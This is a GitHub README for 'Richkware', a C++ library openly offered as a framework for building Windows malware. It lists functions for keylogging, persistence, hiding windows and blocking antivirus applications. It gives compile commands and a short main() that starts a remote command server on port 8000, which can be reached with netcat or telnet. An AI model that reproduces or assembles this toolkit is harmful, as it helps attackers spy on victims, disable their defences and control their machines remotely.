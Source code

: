 # Richkware
Framework for building Windows malwares, written in C++.

##Description

It's a library of network and OS functions, that you can use to create a malware.
The compositions of these functions, according to different logics permit at the application 
to assume behaviors associable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

##FUNCTIONS

###Network

- **StartServer**: start a server on an arbitrary port, to receive commands from the Internet, 
thus allowing to run commands or make changes to application state;
- **RawRequest**: send a request to a server;

###System

- **SaveValueReg** and **LoadValueReg**
- **SaveSession** and **LoadSession**: save the application state(encrypted) in the system;
- **IsAdmin** and **RequestAdminPrivileges**: check and require administrator privileges;
- **Persistance**: install itself permanently in the system.
- **StealthWindow**: hide applications;
- **OpenApp**: open arbitrary applications;
- **BlockApps** e **UnBlockApps**: block and Unblock applications (antivirus, ...);
- **Keylogger**

###Cryptography

- **EncryptDecrypt**

###Other

- **RandMouse**: move randomly the mouse cursor
- **Hibernation**: hibernate system;

##COMPILE

###Using MinGW cross compiler for Windows

	g++ -O3 -c -o yourMain.o yourMain.cpp

	g++ -O3 -c -o crypto.o crypto.cpp
	g++ -O3 -c -o thread.o thread.cpp
	g++ -O3 -c -o sharedList.o sharedList.cpp
	g++ -O3 -c -o blockApps.o blockApps.cpp
	g++ -O3 -c -o richkware.o richkware.cpp

	g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o thread.o main.o -lws2_32 

###Using MinGW cross compiler for Linux build environment

	x86_64-w64-mingw32-g++ -O3 -c -o yourMain.o yourMain.cpp

	x86_64-w64-mingw32-g++ -O3 -c -o crypto.o crypto.cpp
	x86_64-w64-mingw32-g++ -O3 -c -o thread.o thread.cpp
	x86_64-w64-mingw32-g++ -O3 -c -o sharedList.o sharedList.cpp
	x86_64-w64-mingw32-g++ -O3 -c -o blockApps.o blockApps.cpp
	x86_64-w64-mingw32-g++ -O3 -c -o richkware.o richkware.cpp

	x86_64-w64-mingw32-g++ -static-libgcc -static-libstdc++ -o richkware.exe richkware.o crypto.o main.o -lws2_32

###Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Proprocessor > Proprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dipendencies, add "Ws2_32.lib"


##REMOTELY COMMAND EXECUTION

Call function **StartServer** in the main, that starts server on port 8000.

	int main () {
		Richkware richkware ;
		richkware.StartServer ("8000");
		return 0;
	}

###Connect from Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000

###Connect from Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000
